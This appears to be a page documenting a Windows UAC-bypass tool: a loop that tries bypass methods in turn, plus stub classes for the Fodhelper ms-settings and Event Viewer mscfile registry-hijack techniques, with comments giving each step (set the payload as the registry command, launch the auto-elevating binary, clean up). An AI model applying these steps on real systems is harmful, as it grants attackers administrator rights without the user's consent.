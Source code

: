 ```python
                continue
            
            debug_print(f"Attempting {method.name}...")
            self.attempted_methods.append(method.name)
            
            try:
                if method.attempt():
                    self.successful_method = method.name
                    debug_print(f"✅ SUCCESS: {method.name}")
                    return True
            except Exception as e:
                debug_print(f"❌ FAILED: {method.name} - {e}")
        
        return False
```

### **Implemented Bypass Classes:**

**1. FodhelperProtocolBypass (Lines 1568-1617)**
```python
class FodhelperProtocolBypass(UACBypassMethod):
    def __init__(self):
        super().__init__(
            "Fodhelper ms-settings Protocol",
            "Hijack ms-settings protocol handler"
        )
    
    def attempt(self):
        # Create registry key: HKCU\Software\Classes\ms-settings\shell\open\command
        # Set default value to payload path
        # Run fodhelper.exe (auto-elevates)
        # Clean up registry key
        return success
```

**2. EventViewerBypass (Lines 1666-1712)**
```python
class EventViewerBypass(UACBypassMethod):
    def __init__(self):
        super().__init__(
            "Event Viewer Registry Hijack",
            "Exploit EventVwr.exe via mscfile registry"
        )
    
    def attempt(self):
        # Create: HKCU\Software\Classes\mscfile\shell\open\command
        # Set default value to payload
        # Run eventvwr.exe (auto-elevates)
        # Clean up
        return success
```
